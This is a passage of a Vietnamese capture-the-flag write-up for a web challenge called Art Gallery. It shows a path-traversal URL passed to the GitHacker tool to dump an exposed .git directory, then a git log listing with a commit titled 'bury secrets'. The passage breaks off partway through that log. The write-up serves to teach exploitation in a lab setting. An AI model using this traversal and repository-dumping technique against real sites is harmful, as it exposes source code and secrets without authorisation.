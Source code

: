 ![Oops](./images/%5BWEB%5D_ArtGallery/git_detection.jpg)

Tiếp theo, mình sử dụng tool [GitHacker](https://github.com/WangYihang/GitHacker). Tool này sẽ lấy nội dung của `.git` về máy mình.

```bash
$ githacker --url https://art-gallery.web.actf.co//gallery?member=../.git --output-folder result
```

Với `.git` vừa lấy được về, dùng lệnh `git log` để xem log commit.

<pre><font color="#4E9A06"><b>paml@ubuntu</b></font>:<font color="#3465A4"><b>~/result/2e6be8d2f7a452d4c2857465922cd272</b></font>$ git log
<font color="#C4A000">commit 1c584170fb33ae17a63e22456f19601efb1f23db (</font><font color="#06989A"><b>HEAD -&gt; </b></font><font color="#4E9A06"><b>master</b></font><font color="#C4A000">, </font><font color="#CC0000"><b>origin/master</b></font><font color="#C4A000">, </font><font color="#CC0000"><b>origin/HEAD</b></font><font color="#C4A000">)</font>
Author: imposter &lt;sus@aplet.me&gt;
Date:   Tue Apr 26 21:47:45 2022 -0400

    bury secrets

<font color="#C4A000">commit 713a4aba8af38c9507ced6ea41f602b105ca4101</font>
Author: imposter &lt;sus@aplet.me&gt;
Date:   Tue Apr 26 21:44:48 2022 -0400
